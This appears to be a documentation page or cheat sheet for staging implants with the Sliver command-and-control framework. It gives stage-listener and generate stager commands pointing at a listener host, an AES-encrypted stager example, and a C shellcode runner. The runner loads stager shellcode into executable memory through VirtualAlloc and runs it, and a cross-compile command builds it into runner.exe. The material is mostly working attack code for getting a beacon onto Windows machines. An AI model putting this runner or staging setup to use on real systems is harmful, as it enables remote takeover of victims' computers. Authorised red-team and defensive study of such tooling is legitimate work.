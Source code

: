 If you want to use stagers generated by the Metasploit Framework with Sliver (using msfconsole, msfvenom or the generate stager command), you will need to pass the additional --prepend-size flag to stage-listener, like this:  
```
stage-listener --url http://10.8.0.14:8443 --profile win64-beacon --prepend-size
```

## Stage Runner C

```sliver
generate stager --lhost 10.8.0.14 --lport 8443 --arch amd64 --format c --save /tmp
```

```c
#include "windows.h"

int main()
{
    unsigned char shellcode[] =
    "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52"
    "\x48\x31\xd2\x51\x56\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
    ...
    "\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41"
    "\xff\xe7\x58\x6a\x00\x59\xbb\xe0\x1d\x2a\x0a\x41\x89\xda\xff"
    "\xd5";


    void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcode, sizeof shellcode);
    ((void(*)())exec)();

    return 0;
}
```

`x86_64-w64-mingw32-gcc -o runner.exe runner.c`
# Listener

Sliver staging listeners only accept `tcp://`, `http://` and `https://` schemes for the `--url` flag. The format for this flag is `scheme://IP:PORT`. If no value is specified for PORT, an error will be thrown out.
## Encrypted Stager

```
stage-listener --url http://10.8.0.14:8443 --profile win64-beacon --aes-encrypt-key D(G+KbPeShVmYq3t --aes-encrypt-iv 8y/B?E(G+KbPeShV
```
## Stage Listener Session

```sliver
stage-listener --url tcp://10.8.0.14:8443 --profile win64
```
## Stage Listener Beacon
